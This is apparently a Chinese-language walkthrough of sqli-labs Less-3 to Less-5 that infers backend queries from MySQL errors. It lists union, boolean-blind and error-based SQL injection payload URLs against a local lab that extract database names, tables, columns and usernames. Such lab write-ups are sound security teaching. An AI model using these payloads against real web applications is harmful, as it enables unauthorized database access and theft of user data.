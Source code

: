 查询id=1，加单引号，报错为`syntax to use near ''1'') LIMIT 0,1' at line 1`，猜测后台查询语句为`select * from * where id = ('$id') LIMIT 0,1`

接着只需构造payload为`http://127.0.0.1/sqli/less-3/?id=-1') union select 1,database(),3--+
`，后续注入同Less-1和Less-2

***

**Less-4**

提交id=1，添加单引号页面正常，添加双引号报错为`syntax to use near '"1"") LIMIT 0,1' at line 1`，猜测后台查询语句为`select * from * where id = ("$id") LIMIT 0,1`

构造payload为`http://127.0.0.1/sqli/less-3/?id=-1") union select 1,database(),3--+`，后续注入同上

***

**Less-5**

提交id=1，显示`u are in`，知需要盲注

![](https://upload-images.jianshu.io/upload_images/11356161-f3eeee144856989d.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

加单引号报错，知闭合为单引号

接下来可以构造payload进行基于bool的盲注

`http://127.0.0.1/sqli/less-5/?id=1' and mid(database(),1,1)='s'--+`，库名security第一位为's'，假如猜错则会无回显

![](https://upload-images.jianshu.io/upload_images/11356161-6776613802d4e765.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

慢慢试吧，写个脚本更方便

Bool-Based
`http://127.0.0.1/sqli/less-5/?id=1' and mid((select group_concat(schema_name) from information_schema.schemata),1,1)>'b'--+`

`http://127.0.0.1/sqli/less-5/?id=1' and mid((select table_name from information_schema.tables where table_schema='security' LIMIT 0,1),1,1)>'b'--+`

`http://127.0.0.1/sqli/less-5/?id=1' and mid((select column_name from information_schema.columns where table_name='users' LIMIT 0,1),1,1)>'b'--+`

`http://127.0.0.1/sqli/less-5/?id=1' and mid((select(username) from security.users where id=1),1,1)>'b'--+`

Wrong-Based
`http://127.0.0.1/sqli/less-5/?id=1' and(select 1 from(select count(*),concat((select (select (select concat(0x25,version(),0x25))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)--+`

`http://127.0.0.1/sqli/less-5/?id=1' union select 1,count(*),concat(0x25,database(),0x25,floor(rand(0)*2))a from information_schema.tables group by a--+`

`http://127.0.0.1/sqli/less-5/?id=1' union select 1,count(*),concat(0x25,(select schema_name from information_schema.schemata limit 0,1),0x25,floor(rand(0)*2))a from information_schema.schemata group by a--+`

`http://127.0.0.1/sqli/less-5/?id=1' union select 1,count(*),concat(0x25,(select  table_name from information_schema.tables where table_schema='security' limit 0,1),0x25,floor(rand(0)*2))a from  information_schema.tables  group by a--+`
